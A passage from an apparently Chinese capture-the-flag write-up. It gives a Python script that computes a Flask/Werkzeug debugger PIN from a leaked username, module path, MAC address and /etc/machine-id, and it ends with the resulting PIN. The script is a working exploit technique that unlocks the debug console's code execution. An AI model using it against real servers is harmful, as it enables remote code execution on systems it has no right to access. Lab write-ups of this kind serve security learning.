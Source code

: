 至此，所有参数获取完毕，输入有效载荷计算密码：

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'glzjin'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/site-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377869398',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '73e631540828d92c2d71a634670c201fa81ff3ea9790ce454d630df7d27e994e'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)


//PIN  111-070-424
```

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu13.jpg)
